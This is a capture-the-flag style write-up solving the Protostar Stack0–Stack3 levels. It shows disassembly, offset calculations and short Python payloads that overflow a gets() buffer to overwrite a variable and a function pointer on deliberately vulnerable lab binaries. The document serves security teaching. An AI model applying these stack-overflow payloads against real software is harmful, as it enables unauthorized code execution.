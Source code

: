# Protostar

## Stack0

The source code shows that there is a significant stack overflow. When the program recvievs input from the user, gets() will not check the length of the buffer.
The mission is that overwrite the variable named modified, the address of which is just 64bytes behind the address of the variable named buffer.

```ASM
 080483f4 <main>:
 80483f4:       55                      push   %ebp
 80483f5:       89 e5                   mov    %esp,%ebp
 80483f7:       83 e4 f0                and    $0xfffffff0,%esp
 80483fa:       83 ec 60                sub    $0x60,%esp
 80483fd:       c7 44 24 5c 00 00 00    movl   $0x0,0x5c(%esp)
 8048404:       00
 8048405:       8d 44 24 1c             lea    0x1c(%esp),%eax
 8048409:       89 04 24                mov    %eax,(%esp)
 804840c:       e8 fb fe ff ff          call   804830c <gets@plt>
 8048411:       8b 44 24 5c             mov    0x5c(%esp),%eax
 8048415:       85 c0                   test   %eax,%eax
 8048417:       74 0e                   je     8048427 <main+0x33>
 8048419:       c7 04 24 00 85 04 08    movl   $0x8048500,(%esp)
 8048420:       e8 07 ff ff ff          call   804832c <puts@plt>
 8048425:       eb 0c                   jmp    8048433 <main+0x3f>
 8048427:       c7 04 24 29 85 04 08    movl   $0x8048529,(%esp)
 804842e:       e8 f9 fe ff ff          call   804832c <puts@plt>
 8048433:       c9                      leave
 8048434:       c3                      ret

```

We could calculate the offset will be 0x40 = 64, since the 
&buffer = 0x1c(%esp);
&modified = 0x5c(%esp);

The exploit python code is 

```python
#!/usr/bin/env python

SH='A'*64+'XXXX'
print(SH)
```

## Stack1

The exploit python code could be slightly modified for stack1

```python
#!/usr/bin/env python

SH='A'*64+'dcba'
print(SH)
```

## Stack2

The exploit python code is:

```python
#!/usr/bin/env python
import sys

SH='A'*64+'\x0a\x0d\x0a\x0d'
sys.stdout.write(SH)
```

And the stack overflow could be constructed as :

```shell
 env GREENIE="`python hack.py`" /opt/protostar/bin/stack2
```

## Stack3

The disasmble code is :

```asm
08048438 <main>:
 8048438:       55                      push   %ebp
 8048439:       89 e5                   mov    %esp,%ebp
 804843b:       83 e4 f0                and    $0xfffffff0,%esp
 804843e:       83 ec 60                sub    $0x60,%esp
 8048441:       c7 44 24 5c 00 00 00    movl   $0x0,0x5c(%esp)
 8048448:       00
 8048449:       8d 44 24 1c             lea    0x1c(%esp),%eax
 804844d:       89 04 24                mov    %eax,(%esp)
 8048450:       e8 db fe ff ff          call   8048330 <gets@plt>
 8048455:       83 7c 24 5c 00          cmpl   $0x0,0x5c(%esp)
 804845a:       74 1b                   je     8048477 <main+0x3f>
 804845c:       b8 60 85 04 08          mov    $0x8048560,%eax
 8048461:       8b 54 24 5c             mov    0x5c(%esp),%edx
 8048465:       89 54 24 04             mov    %edx,0x4(%esp)
 8048469:       89 04 24                mov    %eax,(%esp)
 804846c:       e8 df fe ff ff          call   8048350 <printf@plt>
 8048471:       8b 44 24 5c             mov    0x5c(%esp),%eax
 8048475:       ff d0                   call   *%eax
 8048477:       c9                      leave
 8048478:       c3                      ret
```
I plan to overwrite the content of the pointor named fp with the value of win(), the address of which is 0x08048424.

The following python code will exploit the program at the level.

```python
#!/usr/bin/env python
import sys

SH='A'*64+'\x24\x84\x04\x08'
sys.stdout.write(SH)
```

